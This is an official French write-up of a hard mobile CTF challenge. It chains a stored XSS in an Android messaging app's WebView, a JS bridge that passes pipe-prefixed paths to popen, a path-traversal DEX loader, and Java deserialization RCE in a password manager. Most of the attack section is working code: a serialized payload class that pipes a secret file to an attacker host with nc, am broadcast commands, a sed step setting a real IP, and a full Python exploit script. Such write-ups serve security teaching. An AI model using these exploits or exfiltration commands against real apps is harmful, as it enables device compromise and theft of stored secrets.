








# I swear it's a feature! - Write-up officiel

> **Categorie:** Mobile | **Difficulte:** Hard | **Points:** 500 | **Auteur:** pwnii

## TL;DR

```
Stored XSS (WebView) → JS Bridge → popen RCE (BzhMessenger) → decouverte VaultPass backup
sur /sdcard/ → reverse engineering → ecriture DEX malicieux sur /sdcard/ → am broadcast avec
path traversal + DexClassLoader → Java deserialization RCE dans VaultPass → lecture flag → exfil nc
```

## Contexte

BzhMessenger est une app de messagerie Android (Kotlin/Jetpack Compose) avec une interface Discord-like. Les joueurs interagissent via une **interface web** (chat Flask) et un **bot Android** tourne sur l'infra CTF (AVD Docker). Le bot visite periodiquement les channels et rend les messages dans une WebView.

L'objectif est d'exploiter une chaine XSS → JS Bridge → RCE native pour pivoter vers VaultPass (un password manager installe sur le meme device) et recuperer le flag stocke dans son stockage prive.

---

## Etape 1 — Reconnaissance statique

### 1.1 Decompilation de l'APK BzhMessenger

```bash
jadx -d out bzh-messenger.apk
# ou
apktool d bzh-messenger.apk
```

On decouvre un projet Kotlin/Compose classique avec :
- Une WebView qui charge les messages en HTML depuis le serveur Flask
- Un JS Bridge `NativeBridge` expose au JavaScript
- Une lib native `libimageproc.so` linkee avec ImageMagick (libmagickwand-7.so, libmagickcore-7.so)
- URL du serveur en dur dans `ApiConfig.kt` : `http://forum.ctf.bzh`
- Permission `MANAGE_EXTERNAL_STORAGE` dans le manifest (acces ecriture `/sdcard/`)

### 1.2 WebView avec JS Bridge

Dans `MainActivityKt.java` (jadx), on trouve la creation du WebView avec JavaScript active et un bridge natif :

```java
// MainActivityKt.java — decompile par jadx
WebView webView = new WebView($context);
webView.getSettings().setJavaScriptEnabled(true);
webView.getSettings().setDomStorageEnabled(true);
webView.getSettings().setAllowFileAccess(false);
webView.getSettings().setMixedContentMode(0);
webView.setWebViewClient(new WebViewClient());
webView.setWebChromeClient(new WebChromeClient());
webView.addJavascriptInterface(new ImageBridge($context), "NativeBridge");
webView.loadUrl(ApiClient.INSTANCE.getMessageViewUrl($token, $channelId));
```


### 1.3 JS Bridge — `ImageBridge.java` (jadx)

```java
// ImageBridge.java — decompile par jadx
public final class ImageBridge {
    private final OkHttpClient client;
    private final Context context;
    private boolean initialized;

    private final native void nativeInit(String basePath);
    private final native String nativeProcessImage(String path);

    @JavascriptInterface
    public final void setup() throws IOException {
        copyAssetsOnce();
        String absolutePath = this.context.getFilesDir().getAbsolutePath();
        nativeInit(absolutePath);
        this.initialized = true;
    }

    @JavascriptInterface
    public final String processImage(String path) {
        String localPath;
        if (!this.initialized) {
            return "Error: Bridge not initialized. Call setup() first.";
        }
        try {
            String url = StringsKt.startsWith$default(path, "http", false, 2, (Object) null)
                ? path
                : ApiConfig.BASE_URL + path;
            Request request = new Request.Builder().url(url).build();
            Response response = this.client.newCall(request).execute();
            // ... download to cache ...
            localPath = cacheFile.getAbsolutePath();
        } catch (Exception e) {
            localPath = path;  // Download echoue → path brut passe au natif
        }
        return nativeProcessImage(localPath);
    }

    static {
        System.loadLibrary("imageproc");
    }
}
```

**Point cle :** si le path ne commence pas par `http`, le bridge tente de prefixer `BASE_URL` et de telecharger. Si ca echoue (exception), **le path original est passe tel quel** au code natif.

### 1.4 XSS dans le rendu des messages

Le serveur Flask utilise Jinja2 avec `| safe` dans le template WebView (`templates/message_view.html`) :

```html
<div class="msg-content">
    {{ msg.content | safe }}
</div>
```

Le contenu des messages est rendu **sans echappement HTML**. Tout HTML/JS injecte sera execute dans la WebView du bot.

### 1.5 Reverse engineering du code natif — `libimageproc.so`

En ouvrant `libimageproc.so` dans Ghidra, on observe :

```c
if (*file_path == '|') {
    pos = handle_pipe(file_path, result, sizeof(result));
}
```

Et la fonction `handle_pipe` :

```c
static int handle_pipe(const char *path, char *out, size_t out_sz) {
    FILE *fp = popen(path + 1, "r");  // Execute tout ce qui suit le '|'
    // ... lit stdout dans out ...
    pclose(fp);
}
```

**Le pipe trick :** si le path commence par `|`, le code strip le `|` et passe le reste a `popen()`.

---

## Etape 2 — RCE via XSS + popen

### 2.1 Chaine d'attaque

```
1. Le joueur envoie un message HTML malicieux via l'interface web
2. Le bot Android visite le channel #general
3. La WebView rend le HTML → le handler onerror s'execute
4. NativeBridge.setup() initialise ImageMagick
5. NativeBridge.processImage('|<commande>') → download echoue → path brut au natif
6. handle_pipe() detecte le '|' → popen("<commande>", "r")
7. RCE sous l'UID de BzhMessenger
```

### 2.2 POC rapide — exfiltration OOB

Lancer un listener :
```bash
nc -lvp 4444
```

Poster ce message dans le channel `#general` via l'API web :
```html

```

> **Note :** On utilise `` plutot que `<script>` car le handler `onerror`
> s'execute de maniere fiable dans la WebView, independamment du JavaScript existant sur la page.

Resultat recu sur le listener :
```
uid=10230(u0_a230) gid=10230(u0_a230) groups=10230(u0_a230),1077(external_storage),3003(inet),9997(everybody),20230(u0_a230_cache),50230(all_a230) context=u:r:untrusted_app_32:s0:c230,c256,c512,c768
```

Points importants :
- **GID 1077 (`external_storage`)** : permet l'acces en lecture/ecriture a `/sdcard/`
- **GID 3003 (`inet`)** : permet les connexions reseau sortantes (nc vers l'attaquant)
- **SELinux `untrusted_app_32`** : contexte d'app standard, pas de restrictions speciales

---

## Etape 3 — Enumeration et decouverte de VaultPass

### 3.1 Ce qui est accessible depuis le popen

Depuis le contexte RCE (UID de BzhMessenger), on peut enumerer le device :

```html

```


> **La decouverte de VaultPass se fait via son APK backup sur `/sdcard/Download/`**, pas via `pm list packages` (qui est bloque par le package visibility filtering d'Android 11+).

### 3.2 Exfiltration de l'APK VaultPass

```html

```

Sur le host :
```bash
nc -lvp 4444 > vaultpass_b64.txt
base64 -d vaultpass_b64.txt > vaultpass.apk
md5sum vaultpass.apk
# babdaf2b75f983965a2cb32097f5f244  vaultpass.apk
```



### 3.3 Reverse engineering de VaultPass

```bash
jadx -d vaultpass_out vaultpass.apk
```

**AndroidManifest.xml** — Deux BroadcastReceivers exportes :
```xml
<receiver android:name=".PluginRegisterReceiver" android:exported="true">
    <intent-filter>
        <action android:name="com.breizhctf.vaultpass.REGISTER_PLUGIN" />
    </intent-filter>
</receiver>

<receiver android:name=".PrefsImportReceiver" android:exported="true">
    <intent-filter>
        <action android:name="com.breizhctf.vaultpass.IMPORT_PREFS" />
    </intent-filter>
</receiver>
```


Permissions : `INTERNET`, `READ_EXTERNAL_STORAGE`, `MANAGE_EXTERNAL_STORAGE`

**PluginRegisterReceiver.java** (jadx) — Charge un DEX externe :
```java
// PluginRegisterReceiver.java — decompile par jadx
public final class PluginRegisterReceiver extends BroadcastReceiver {
    public static final Companion INSTANCE = new Companion(null);
    private static final String PLUGIN_DIR = "/data/data/com.breizhctf.vaultpass/";
    private static ClassLoader pluginClassLoader;

    @Override
    public void onReceive(Context context, Intent intent) {
        String dexPath = intent.getStringExtra("dexPath");
        if (dexPath == null) {
            return;
        }
        // Verification bypass-able par path traversal :
        if (!StringsKt.startsWith$default(dexPath, PLUGIN_DIR, false, 2, (Object) null)) {
            Log.w("PluginRegister", "Path outside plugin dir: " + dexPath);
            return;
        }
        try {
            File src = new File(dexPath);
            File dst = new File(context.getCacheDir(), "plugin_" + System.currentTimeMillis() + ".jar");
            // ... copie src → dst ...
            dst.setReadOnly();
            pluginClassLoader = new DexClassLoader(
                dst.getAbsolutePath(),
                context.getCodeCacheDir().getAbsolutePath(),
                null, context.getClassLoader()
            );
            Log.i("PluginRegister", "Loaded plugin from " + dexPath);
        } catch (Throwable t) {
            Log.e("PluginRegister", "Failed to load plugin", t);
        }
    }
}
```


**Vulnerabilite 1 — Path traversal :** Le check `startsWith("/data/data/com.breizhctf.vaultpass/")` est bypass-able :
```
/data/data/com.breizhctf.vaultpass/../../../storage/emulated/0/Download/pwn.jar
```
Ce path commence par `/data/data/com.breizhctf.vaultpass/` mais resoud vers `/storage/emulated/0/Download/pwn.jar`.

Le receiver copie le fichier dans son propre cache (`setReadOnly()`) puis le charge avec `DexClassLoader`. Le classloader est stocke dans un `companion object` (variable statique partagee dans le process).

**PrefsImportReceiver.java** (jadx) — Deserialise un objet Java :
```java
// PrefsImportReceiver.java — decompile par jadx
public final class PrefsImportReceiver extends BroadcastReceiver {
    @Override
    public void onReceive(Context context, Intent intent) {
        String b64 = intent.getStringExtra("prefs");
        if (b64 == null) {
            return;
        }
        try {
            byte[] blob = Base64.decode(b64, 0);
            final ClassLoader cl = PluginRegisterReceiver.INSTANCE.getPluginClassLoader();
            if (cl == null) {
                cl = context.getClassLoader();
            }
            final ByteArrayInputStream bais = new ByteArrayInputStream(blob);
            Object imported = new ObjectInputStream(bais) {
                @Override
                protected Class<?> resolveClass(ObjectStreamClass desc)
                        throws ClassNotFoundException {
                    return Class.forName(desc.getName(), false, cl);
                }
            }.readObject();  // DESERIALIZATION !
            Log.i("PrefsImport", "Imported prefs: " + imported.getClass().getName());
        } catch (Throwable t) {
            Log.e("PrefsImport", "Import failed", t);
        }
    }
}
```


**Vulnerabilite 2 — Java deserialization RCE :** `readObject()` est appele sur des donnees controlees par l'attaquant. Le `resolveClass()` custom utilise le `pluginClassLoader` charge via la vuln 1. Si une classe malicieuse est dans le DEX charge, son `readObject()` s'execute sous l'UID de VaultPass.

On sait maintenant que la deserialization nous donne du code execution sous l'UID de VaultPass. Reste a trouver ou est le flag. En parcourant le code de `MainActivity.java` dans jadx, on trouve :

```java
private final void writeSecretFlag() {
    File f = new File(getFilesDir(), "secret.key");
    if (!f.exists()) {
        FilesKt.writeText$default(f, "BZHCTF{fake_flag}", null, 2, null);
    }
}
```

Le flag est ecrit dans `getFilesDir()` → `/data/data/com.breizhctf.vaultpass/files/secret.key`. Ce fichier est uniquement lisible par l'UID de VaultPass (chmod 600) — il faut donc executer du code dans le contexte de VaultPass pour le lire.

---

## Etape 4 — Exploitation de VaultPass

### 4.1 Construction du payload malicieux

**Pwn.java** — Classe malicieuse avec RCE dans `readObject()`. Remplacer `ATTACKER_IP` par l'IP de votre serveur (VPS, ngrok, etc.) :

```java
package com.attacker.payload;
import java.io.*;
public class Pwn implements Serializable {
    private static final long serialVersionUID = 1L;
    private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException {
        in.defaultReadObject();
        Runtime.getRuntime().exec(new String[]{
            "sh", "-c",
            "cat /data/data/com.breizhctf.vaultpass/files/secret.key | nc -w 3 ATTACKER_IP 4444"
        });
    }
}
```

**MakeBlob.java** — Cree l'objet serialise :

```java
import java.io.*;
import com.attacker.payload.Pwn;
public class MakeBlob {
    public static void main(String[] args) throws Exception {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("blob.bin"));
        oos.writeObject(new Pwn());
        oos.close();
    }
}
```

### 4.2 Build chain

Prerequis : JDK 8+ et Android SDK (pour `d8` et `android.jar`). La version d'`android.jar` n'a pas d'importance — `Pwn.java` n'utilise que `java.io.*` et `java.lang.Runtime`.

**Installation de la toolchain** :

```bash
sudo apt update
sudo apt install -y curl unzip openjdk-17-jdk
# Create SDK directory
mkdir -p ~/android-sdk/cmdline-tools
# Download latest cmdline-tools (check https://developer.android.com/studio for latest URL)
curl -o /tmp/cmdline-tools.zip "https://dl.google.com/android/repository/commandlinetools-linux-11076708_latest.zip"
# Extract into the right structure
unzip /tmp/cmdline-tools.zip -d /tmp/cmdline-tools-tmp
mkdir -p ~/android-sdk/cmdline-tools/latest
mv /tmp/cmdline-tools-tmp/cmdline-tools/* ~/android-sdk/cmdline-tools/latest/
export ANDROID_HOME="$HOME/android-sdk"
export PATH="$PATH:$ANDROID_HOME/cmdline-tools/latest/bin"
export PATH="$PATH:$ANDROID_HOME/platform-tools"
export PATH="$PATH:$ANDROID_HOME/build-tools/35.0.0"
source ~/.bashrc
yes | sdkmanager --licenses
sdkmanager "platforms;android-35"  # android.jar lives in platforms/android-XX
sdkmanager "build-tools;35.0.0"  # d8 lives in build-tools
sdkmanager "platform-tools"  # Optional but useful
```

**Compilation** :

```bash
ANDROID_JAR=$ANDROID_HOME/platforms/$(ls $ANDROID_HOME/platforms/ | sort -V | tail -1)/android.jar
D8=$ANDROID_HOME/build-tools/$(ls $ANDROID_HOME/build-tools/ | sort -V | tail -1)/d8

# 1. Remplacer ATTACKER_IP par l'IP de votre serveur
sed -i 's/ATTACKER_IP/217.76.49.158/g' com/attacker/payload/Pwn.java

# 2. Compiler Pwn.java
javac -cp $ANDROID_JAR --release 8 com/attacker/payload/Pwn.java

# 3. Creer blob.bin (objet Pwn serialise)
javac -cp . MakeBlob.java
java -cp . MakeBlob
# → blob.bin cree

# 4. Encoder blob.bin en base64
BLOB_B64=$(base64 -w0 blob.bin)
echo $BLOB_B64
# → rO0ABXNyABhjb20uYXR0YWNrZXIucGF5bG9hZC5Qd24AAAAAAAAAAQIAAHhw

# 5. Convertir Pwn.class en DEX Android (d8 est dans build-tools du SDK)
$D8 --lib $ANDROID_JAR --output pwn.jar com/attacker/payload/Pwn.class

# 6. Encoder pwn.jar en base64
DEX_B64=$(base64 -w0 pwn.jar)
echo "DEX length: ${#DEX_B64}"
# → ~1400 caracteres
```


### 4.3 Payload XSS finale — chaine complete en une seule commande

La payload popen fait tout en une seule commande chainee :

1. Ecrit le DEX (`pwn.jar`) sur `/sdcard/Download/` via base64 decode
2. Envoie un broadcast pour charger le DEX dans VaultPass (path traversal)
3. Attend 2 secondes que le classloader soit pret
4. Envoie un broadcast pour declencher la deserialization → RCE → exfiltration du flag

Lancer le listener sur le serveur attaquant :
```bash
nc -lvp 4444
```

Poster la payload via curl (les variables `$DEX_B64` et `$BLOB_B64` sont celles de l'etape 4.2) :
```bash
# Login
TOKEN=$(curl -sf http://CHALLENGE_IP:8080/api/auth/login \
    -H 'Content-Type: application/json' \
    -d '{"username":"player","password":"bzhctf2026"}' \
    | python3 -c "import sys,json; print(json.load(sys.stdin)['token'])")

# Construire la commande popen chainee
STORAGE="/storage/emulated/0/Download/pwn.jar"
TRAVERSAL="/data/data/com.breizhctf.vaultpass/../../../storage/emulated/0/Download/pwn.jar"

PIPE_CMD="echo ${DEX_B64} | base64 -d > ${STORAGE}"
PIPE_CMD="${PIPE_CMD} && am broadcast --user 0 -n com.breizhctf.vaultpass/.PluginRegisterReceiver --es dexPath ${TRAVERSAL}"
PIPE_CMD="${PIPE_CMD} && sleep 2"
PIPE_CMD="${PIPE_CMD} && am broadcast --user 0 -n com.breizhctf.vaultpass/.PrefsImportReceiver --es prefs ${BLOB_B64}"

# Construire le XSS
XSS=""

# Poster dans #general
curl -sf http://CHALLENGE_IP:8080/api/channels/general/messages \
    -X POST \
    -H "Authorization: Bearer $TOKEN" \
    -H 'Content-Type: application/json' \
    -d "{\"content\":$(python3 -c "import json; print(json.dumps('''$XSS'''))")}"
```


> **Contrainte de quoting :** L'attribut HTML `onerror` utilise des double-quotes, la string JS
> utilise des single-quotes. La commande shell ne doit contenir **ni single-quotes ni double-quotes**
> — les valeurs `--es` de `am broadcast` n'ont pas besoin de quotes car elles ne contiennent pas d'espaces.

### 4.4 Script d'exploitation automatise (Python)

```python
#!/usr/bin/env python3
"""Exploit complet : XSS → popen → VaultPass deser RCE → flag"""
import requests
import base64

TARGET = "http://CHALLENGE_IP:8080"

# 1. Login
r = requests.post(f"{TARGET}/api/auth/login",
    json={"username": "player", "password": "bzhctf2026"})
token = r.json()["token"]
headers = {"Authorization": f"Bearer {token}"}

# 2. Lire le DEX base64 (pre-built)
with open("pwn.jar", "rb") as f:
    dex_b64 = base64.b64encode(f.read()).decode()

# 3. Construire la commande popen (sans quotes dans les valeurs --es)
STORAGE = "/storage/emulated/0/Download/pwn.jar"
TRAVERSAL = "/data/data/com.breizhctf.vaultpass/../../../storage/emulated/0/Download/pwn.jar"
BLOB = "rO0ABXNyABhjb20uYXR0YWNrZXIucGF5bG9hZC5Qd24AAAAAAAAAAQIAAHhw"

pipe_cmd = (
    f"echo {dex_b64} | base64 -d > {STORAGE} "
    f"&& am broadcast --user 0 -n com.breizhctf.vaultpass/.PluginRegisterReceiver "
    f"--es dexPath {TRAVERSAL} "
    f"&& sleep 2 "
    f"&& am broadcast --user 0 -n com.breizhctf.vaultpass/.PrefsImportReceiver "
    f"--es prefs {BLOB}"
)

# 4. Poster le XSS (img onerror — pas de conflit de quotes)
xss = (
    ''
)

r = requests.post(f"{TARGET}/api/channels/general/messages",
    headers=headers, json={"content": xss})
print(f"[+] Exploit posted: {r.json()['id']}")
print(f"[*] Start listener: nc -lvp 4444")
print(f"[*] Wait for bot to visit the channel...")
```

### 4.5 Deroulement de l'exploit

```
1. Lancer le listener : nc -lvp 4444
2. Executer le script Python (ou poster le XSS manuellement)
3. Attendre que le bot visite le channel #general (~15s)
4. La WebView rend le  → onerror se declenche
5. NativeBridge.processImage('|...') → popen() execute la chaine :
   a. echo BASE64 | base64 -d > /sdcard/Download/pwn.jar
   b. am broadcast --user 0 → PluginRegisterReceiver :
      - recoit dexPath avec path traversal
      - bypass startsWith() check
      - copie le DEX dans son cache + setReadOnly()
      - charge via DexClassLoader
      - stocke le classloader dans companion object
   c. sleep 2 (attend le chargement)
   d. am broadcast --user 0 → PrefsImportReceiver :
      - decode le blob base64
      - resolveClass() utilise le pluginClassLoader
      - trouve com.attacker.payload.Pwn dans le DEX
      - readObject() s'execute sous l'UID VaultPass
      - cat secret.key | nc → flag envoye a l'attaquant
6. Le listener recoit le flag
```

### 4.6 Flag

```
$ nc -lvp 4444
Listening on 0.0.0.0 4444
Connection received on localhost 39714
BZHCTF{1_m1sS_Th3_pR3-4i_w0r7d_:(}
```